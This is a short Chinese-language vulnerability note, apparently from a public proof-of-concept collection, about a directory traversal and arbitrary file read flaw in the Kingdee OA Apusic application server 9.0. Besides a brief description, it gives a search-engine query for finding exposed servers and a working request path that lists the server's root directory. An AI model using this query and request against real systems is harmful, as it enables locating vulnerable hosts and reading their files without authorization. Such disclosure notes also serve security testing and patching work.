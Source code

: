 # 

# 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

```
金蝶OA 9.0 Apusic应用服务器(中间件)
```

## 网络测绘

```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 漏洞复现

登录页面

![image-20220520142557418](./images/202205201425611.png)

验证POC

```
/admin/protected/selector/server_file/files?folder=/
```

![image-20220520142704544](./images/202205201427636.png)
